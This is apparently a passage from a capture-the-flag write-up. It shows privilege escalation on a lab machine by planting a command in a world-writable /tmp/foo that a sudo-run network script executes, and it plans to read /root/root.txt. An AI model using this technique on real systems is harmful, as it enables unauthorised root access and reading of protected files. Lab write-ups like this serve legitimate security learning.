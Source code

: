 When I run changename.sh as guly without sudo, it prompts me to change each field (where I enter "test"), but I don't have permission to do so.

{% highlight plaintext %}
[guly@networked ~]$ changename.sh
/usr/local/sbin/changename.sh: line 2: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
interface NAME:
test
/usr/local/sbin/changename.sh: line 18: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
interface PROXY_METHOD:
test
/usr/local/sbin/changename.sh: line 18: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
interface BROWSER_ONLY:
test
/usr/local/sbin/changename.sh: line 18: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
interface BOOTPROTO:
test
/usr/local/sbin/changename.sh: line 18: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
grep: /etc/sysconfig/network-scripts/ifcfg-ens33: Permission denied
grep: /etc/sysconfig/network-scripts/ifcfg-ens33: Permission denied
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: /tmp/foo: No such file or directory
Users cannot control this device.
{% endhighlight %}

What's strange is that second to last line: "/tmp/foo: No such file or directory". It implies that something at /tmp/foo is trying to be executed, but there's no file there. /tmp is generally a world-writable directory, so I try to add my own "foo" there and rerun the script.

{% highlight plaintext %}
[guly@networked ~]$ echo "echo test" > /tmp/foo                                                     
[guly@networked ~]$ chmod 777 /tmp/foo                                                              
[guly@networked ~]$ changename.sh                                                                   
{% endhighlight %}

And in my output, I see that "test" was echoed.

{% highlight plaintext %}
/usr/local/sbin/changename.sh: line 18: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
grep: /etc/sysconfig/network-scripts/ifcfg-ens33: Permission denied                                 
grep: /etc/sysconfig/network-scripts/ifcfg-ens33: Permission denied                                 
test                                                                                                
Users cannot control this device.                                                                   
{% endhighlight %}

So it seems as though, if I store any command as /tmp/foo, the user running changename.sh will execute it. If I try with "cat /root/root.txt--and sudo the changename.sh script this time--root should read the root flag in the output. I'll also have to be careful not to change the "NAME" field (ps /tmp/foo), as root can actually modify the fields, and this will likely mess things up.
